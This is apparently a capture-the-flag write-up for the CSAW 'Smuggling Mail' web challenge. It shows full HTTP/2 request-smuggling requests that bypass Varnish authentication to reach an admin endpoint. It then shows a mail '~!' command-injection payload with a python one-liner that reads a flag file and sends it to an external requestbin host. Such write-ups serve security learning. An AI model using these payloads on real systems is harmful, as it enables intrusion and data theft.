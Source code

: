 ```yaml
---
title: "Smuggling Mail"
date: 2022-09-12T14:28:16-04:00
draft: false
authors: ["CDT Daniel Chung"] 
tags: ["csaw", "web"]
---
```


What could possibly go wrong with having your reverse proxy handle all authentication?

## Description

Join our waitlist and we'll let you know about apartment vacancies!

http://web.chal.csaw.io:5009/

## TL;DR

Smuggle an HTTP request through Varnish to `/admin/alert` and use a command exploit for `mail` to send the flag to an external website.

### First Steps

I downloaded the source code to look around a little bit. Inside the `package.json` file and `server.js` file, I found a couple of libraries that I have never seen before.

- [hitch](https://github.com/bkardell/Hitch) is a css library to restyle the interface
- varnish is a http accelerator and reverse proxy,[npm site](https://www.npmjs.com/package/varnish) and [description](https://www.sitepoint.com/how-to-boost-your-server-performance-with-varnish/)
- Varnish seems to be performing the authentication for the server and not express.
- The name `Smuggling Mail` makes me think that this is [Request Smuggling](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling)


### A Rabbit Hole

I originally thought that this was going to be either a `CL.TE` or `TE.CL` request smuggling exploit. After trying this for a while, I asked the admins if this was the right exploit to chase. They responded saying that it wasn't, so back to the drawing board.

### Right Path

Varnish is a reverse proxy program and a load balancer. In it's current state for the program, it serves as an endpoint user authenticator, as it authenticates all requests to `/admin` here:
```vcl
sub vcl_recv {
    if (req.url ~ "/admin" && !(req.http.Authorization ~ "^Basic TOKEN$")) {
        return (synth(403, "Access Denied"));
    }
}
```

The express server that is running does not authenticate any requests to the actual backend server. Therefore, I can use request smuggling to get to `/waitlist`, and then ask for `/admin/alert` right after using a `Content-Length: 0` header. After a little bit of testing with a local instance, I can confirm that the smuggling works with a post to `/waitlist` then `/admin/`. This was done with burpsuite repeater.

```
POST /waitlist HTTP/2
Host: localhost:8083
Content-Length: 0

GET /admin/ HTTP/1.1
Host: localhost:8083
``` 

The request there manages to show the admin panel in the response body. Continuing to use this exploit, I now switched to posting to the `/admin/alert` endpoint. Looking at the source, I see that the post request must have a message body in json labeled as `msg`.

```js
app.use(express.json());
...
// Emergency alert email notification system for all residents
app.post("/admin/alert", (req, res) => {
    if (req.body.msg) {
        const proc = spawn("mail", ["-s", "ALERT", "all_residents@localhost"], {timeout});
        proc.stdin.write(req.body.msg);
        proc.stdin.end();
        setTimeout(() => { kill(proc.pid); }, timeout);
    }

    res.end();
});
```

After messing with a local instance, I modified the server script to output the request body into `/tmp/output.txt`. 

```js
// Emergency alert email notification system for all residents
app.post("/admin/alert", (req, res) => {
    if (req.body.msg) {
        fs.writeFile("/tmp/output.txt", req.body.msg, function(err) {
            if(err) {
                return console.log(err);
            }
        }); 
        const proc = spawn("mail", ["-s", "ALERT", "all_residents@localhost"], {timeout});
        proc.stdin.write(req.body.msg);
        proc.stdin.end();
        setTimeout(() => { kill(proc.pid); }, timeout);
    }
    else{
        fs.writeFile("/tmp/output.txt", "got a post", function(err) {
            if(err) {
                return console.log(err);
            }
        }); 
    }

    res.end();
});
```

Where my request body was written to be the following:
```
POST /waitlist HTTP/2
Host: https://localhost:8080
Content-Length: 0

POST /admin/alert HTTP/1.1
Host: https://localhost:8080
Content-Type: application/json
Content-Length: 14

{"msg":"test"}
```

After running the same request, attaching to the docker container using `docker exec -ti DOCKER_ID /bin/bash`, and looking at `/tmp/`, we see that our request is actually going through and is outputting our `msg` data in `output.txt`. Our next step is figuring out how to read and exfil the flag data. I need to have command execution through the `proc.stdin.write` into the `mail` process.

After googling around for quite a while, I found an RCE [here](https://github.com/fail2ban/fail2ban/security/advisories/GHSA-m985-3f3v-cwmm) that describes an exploit with `~!` in mail, an escape that executes a specified command and returns to the mail compose mode. The [manual](https://mailutils.org/manual/mailutils.html#index-_007e_0021_002c-mail-escape) pages go more into depth on this. Trying this exploit out with `~! cat /app/flag.txt"` directly in `mail` shows that the flag is read correctly. Testing this out through burp shows the same result.

```
POST /waitlist HTTP/2
Host: localhost:8083
Content-Length: 0

POST /admin/alert HTTP/1.1
Host: localhost:8083
Content-Type: application/json
Content-Length: 43

{"msg":"~! cp /app/flag.txt /tmp/flag.txt"}
```

```
root@49cc51351ff2:/tmp# cat flag.txt
flag{t35t_f14g_g035_h3r3}
```

At first I tried to overwrite the public `index.html` with the flag with `{"msg":"~! cat /app/flag.txt >> /app/public/index.html"}`, but it doesn't seem like I am able to overwrite files. So now to exfil another way. Using `apt list`, I saw that `python2.7` was installed. This is great, as we can easily use libraries to request to an external website without having to use sockets directly from bash. Testing a custom `python2.7` command shows that we can read the file and send it to a [requestbin](https://requestbin.com/), which I tested [locally](https://requestbin.com/r/eno4g82ze6nt9/2EbpHsodXSPYk4HE3FGxEhnChRd).

```
POST /waitlist HTTP/2
Host: localhost:8083
Content-Length: 0

POST /admin/alert HTTP/1.1
Host: localhost:8083
Content-Type: application/json
Content-Length: 138

{"msg": "~! python -c 'import urllib2; f=open(\"/app/flag.txt\").read(); urllib2.urlopen(\"https://eno4g82ze6nt9.x.pipedream.net/?\"+f)'"}
```

And success! My requestbin showed the test flag, from here I switched to the public server, and got the real flag.

### Solve

```
POST /waitlist HTTP/2
Host: https://web.chal.csaw.io:5009
Content-Length: 0

POST /admin/alert HTTP/1.1
Host: https://web.chal.csaw.io:5009
Content-Type: application/json
Content-Length: 138

{"msg": "~! python -c 'import urllib2; f=open(\"/app/flag.txt\").read(); urllib2.urlopen(\"https://eno4g82ze6nt9.x.pipedream.net/?\"+f)'"}
```

### Flag

```
flag{5up3r_53cr3t_4nd_c001_f14g_g035_h3r3}
```
